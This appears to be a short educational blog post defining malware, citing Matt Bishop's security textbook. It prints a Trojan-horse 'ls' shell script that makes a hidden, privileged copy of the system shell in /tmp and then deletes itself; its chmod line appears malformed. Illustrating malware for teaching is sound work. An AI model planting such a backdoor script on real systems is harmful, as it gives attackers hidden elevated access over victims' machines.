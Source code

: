 ```yaml
---
layout: post
title:  "Gentle introduction to Malicious Software or Malware"
categories: [security]
comments: true
---
```


### Definition [^fn1]

Malicious logic, more commonly called malware, is a set of instructions that cause a site’s security policy to be violated.

Following is a demonstration of a malicious code in Unix based systems
~~~
#! /bin/sh 

# make a privileged, hidden copy of the shell (command interpreter) 
cp /bin/sh /tmp/.xxsh 
chmod o+s, w+x /tmp/.xxsh

# do what the victim thinks is *all* you’re doing 
ls $* 

# delete this file 
rm ./ls
~~~
### References:

[^fn1]: Computer Security - Arts and Science, *Matt Bishop* (Ch23 of 2nd Edition)